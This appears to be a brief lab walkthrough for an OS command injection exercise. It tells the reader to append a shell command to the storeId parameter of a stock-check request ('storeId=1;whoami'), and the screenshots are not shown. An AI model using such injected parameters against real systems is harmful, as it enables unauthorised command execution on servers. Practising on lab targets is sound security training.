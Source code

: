 search for the following request:  

![grafik](https://user-images.githubusercontent.com/62068604/234092661-312b024c-2c52-4aa4-a79d-e95c72bc51a3.png)  

concatenate the storeId parameter with the following OS command:  
`productId=1&storeId=1;whoami`  

![grafik](https://user-images.githubusercontent.com/62068604/234093306-89a7de7f-6894-43ab-a90d-052cfb441434.png)

